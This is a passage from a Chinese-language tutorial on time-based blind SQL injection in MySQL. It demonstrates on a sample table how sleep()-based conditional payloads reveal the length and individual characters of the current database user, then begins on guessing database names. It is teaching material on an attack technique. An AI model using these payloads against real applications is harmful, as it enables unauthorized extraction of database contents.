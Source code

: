 

```plain
mysql> select length(user());
+----------------+
| length(user()) |
+----------------+
|             14 |
+----------------+
1 row in set (0.00 sec)
```



数据库语句: select * from tdb_goods where goods_id=1 and case when(length(user())=14) then sleep(5) else 0 end;



```plain
mysql> select * from tdb_goods where goods_id=1 and case when(length(user())=14) then sleep(5) else 0 end;
Empty set (5.00 sec)
```



# 0x03 读取数据库版本/当前连接用户/当前连接的数据库



注意: 读取不同的内容

例如:

select substring(user() from 1 for 1) = r

select substring(user() from 2 for 1) = o



数据库语句: select * from tdb_goods where goods_id=1 and case when(substring(user() from 1 for 1)='r') then sleep(5) else 0 end;



```plain
mysql> select * from tdb_goods where goods_id=1 and case when(substring(user() from 1 for 1)='r') then sleep(5) else 0 end;
Empty set (5.00 sec)
```



猜对时会延时5秒,一旦延时了5S就可以判断为猜对了



# 0x04 猜库名



注意: OFFSET 0 修改会显示其他库名
